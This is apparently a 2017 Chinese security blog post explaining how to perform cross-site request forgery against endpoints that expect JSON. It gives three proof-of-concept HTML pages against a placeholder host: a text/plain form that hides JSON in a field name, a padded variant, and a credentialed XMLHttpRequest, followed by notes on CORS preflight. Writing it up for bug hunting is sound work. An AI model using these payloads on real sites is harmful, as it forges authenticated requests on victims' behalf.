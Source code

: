 ```yaml
---
id: 131
title: json csrf一个技巧
date: 2017-08-27T14:18:32+00:00
author: bfpiaoran
layout: post
categories:
  - 未分类
---
```

好久之前看到的 于是乎收藏了下 只是略有些印象，然后前几天挖洞的时候遇到一个这样的漏洞，翻过去找找不到~~~~~~~~~

要克服懒惰的毛病啊 保存保存保存~~~~~~~  
json格式的csrf  
用form来提交，poc如下，把name置为一段JSON，其value置为空：

<pre class="pure-highlightjs"><code class="">&lt;html&gt;
   &lt;body&gt;
    &lt;form action="http://www.xxx.com/webnet/edit" method="POST" enctype="text/plain"&gt;
      &lt;input type="hidden" name="&#123;&quot;pSpotId&quot;&#58;&quot;120201&quot;&#44;&quot;pSignTimes&quot;&#58;&quot;70&quot;&#44;&quot;pModuleID&quot;&#58;&quot;207&quot;&#44;&quot;pSceneid&quot;&#58;&quot;120201007000046&quot;&#125;" value="" /&gt;
      &lt;input type="submit" value="Submit request" /&gt;
    &lt;/form&gt;
  &lt;/body&gt;
&lt;/html&gt;</code></pre>

&nbsp;

不过这样POST的数据包会多一个“=”，因为我们虽然把value置为空，然后还是会出现“name=”。  
我们可以给value赋值从而对这个“=”后面的数据进行补全，使得其构成一个完整的JSON格式，可避免解析器报错（JSON Padding

<pre class="pure-highlightjs"><code class="">&lt;html&gt;  
&lt;form action="http://www.xxx.com/webnet/edit" method="POST" enctype="text/plain"&gt;  
&lt;input name='{"pSpotId":"120201","pSignTimes":"70","pModuleID":"207","pSceneid":"120201007000046", "test":"' value='test"}'type='hidden'&gt;  
&lt;input type=submit&gt;  
&lt;/form&gt;  
&lt;/html&gt; </code></pre>

需要注意的是，在原始的数据包里Content-Type的值是application/json，而以form去提交是没法设置enctype为application/json的，在这里设置为text/plain，那么如何设置Content-Type的值呢？

所以我们需要利用XHR进行提交

https://en.wikipedia.org/wiki/XMLHttpRequest

<pre class="pure-highlightjs"><code class="">&lt;html&gt;
  &lt;body&gt;
    &lt;script&gt;
      function submitRequest()
      {
        var xhr = new XMLHttpRequest();
        xhr.open("POST", "http://www.xxx.com/webnet/edit", true);
        xhr.setRequestHeader("Accept", "*/*");
        xhr.setRequestHeader("Accept-Language", "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3");
        xhr.setRequestHeader("Content-Type", "application/json; charset=utf-8");
        xhr.withCredentials = true;
        xhr.send(JSON.stringify({"pSpotId":"120201","pSignTimes":"70","pModuleID":"207","pSceneid":"120201007000046"});
    }
    &lt;/script&gt;
    &lt;form action="#"&gt;
      &lt;input type="button" value="Submit request" onclick="submitRequest();"/&gt;
    &lt;/form&gt;
  &lt;/body&gt;
&lt;/html&gt;</code></pre>

在CORS标准中，定义了新的HTTP消息头Access-Control-Allow-Origin，使得服务端可以定义允许通过浏览器请求的域集合。另外，标准定义了当跨域影响用户数据HTTP请求(如用XMLHttpRequest发送post)时，浏览器会发送预检请求(OPTIONS请求)给服务端征求支持的请求方法，然后根据服务端响应允许才发送真正的请求。

在某些情况中，如果服务端对Content-Type进行校验，则不会响应这个OPTIONS请求，从而利用失败，但是更多的情况下服务端可能不会校验Content-Type，或者不会严格校验Content-Type是否为application/json，所以很多情况下这是可用的。

&nbsp;